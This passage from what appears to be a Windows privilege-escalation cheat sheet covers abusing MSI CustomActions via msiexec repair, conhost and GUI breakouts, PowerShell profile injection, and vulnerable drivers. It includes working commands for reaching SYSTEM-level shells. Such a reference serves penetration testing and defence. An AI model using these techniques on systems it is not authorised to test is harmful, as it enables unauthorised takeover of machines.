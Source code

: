 #### CustomActions

> Custom Actions in MSI allow developers to specify scripts or executables to be run at various points during an installation

* [mgeeky/msidump](https://github.com/mgeeky/msidump) - a tool that analyzes malicious MSI installation packages, extracts files, streams, binary data and incorporates YARA scanner.
* [activescott/lessmsi](https://github.com/activescott/lessmsi) - A tool to view and extract the contents of an Windows Installer (.msi) file.
* [mandiant/msi-search](https://github.com/mandiant/msi-search) - This tool simplifies the task for red team operators and security teams to identify which MSI files correspond to which software and enables them to download the relevant file.

Enumerate products on the machine

```ps1
wmic product get identifyingnumber,name,vendor,version
```

Execute the repair process with the `/fa` parameter to trigger the CustomActions. We can use both IdentifyingNumber `{E0F1535A-8414-5EF1-A1DD-E17EDCDC63F1}` or path to the installer `c:\windows\installer\XXXXXXX.msi`. The repair will run with the NT SYSTEM account.

```ps1
$installed = Get-WmiObject Win32_Product
$string= $installed | select-string -pattern "PRODUCTNAME"
$string[0] -match '{\w{8}-\w{4}-\w{4}-\w{4}-\w{12}}'
Start-Process -FilePath "msiexec.exe" -ArgumentList "/fa $($matches[0])"
```

Common mistakes in MSI installers:

* Missing quiet parameters: it will spawn `conhost.exe` as `NT SYSTEM`. Use `[CTRL]+[A]` to select some text in it, it will pause the execution.
  * conhost -> properties -> "legacy console mode" Link -> Internet Explorer -> CTRL+O –> cmd.exe
* GUI with direct actions: open a URL and start the browser then use the same scenario.
* Binaries/Scripts loaded from user writable paths: you might need to win the race condition.
* DLL hijacking/search order abusing
*   PowerShell `-NoProfile` missing: Add custom commands into your profile

    ```ps1
    new-item -Path $PROFILE -Type file -Force
    echo "Start-Process -FilePath cmd.exe -Wait;" > $PROFILE
    ```

### EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

### EoP - Evaluating Vulnerable Drivers

Look for vuln drivers loaded, we often don't spend enough time looking at this:

* [Living Off The Land Drivers](https://www.loldrivers.io/) is a curated list of Windows drivers used by adversaries to bypass security controls and carry out attacks. The project helps security professionals stay informed and mitigate potential threats.
*   Native binary: DriverQuery.exe
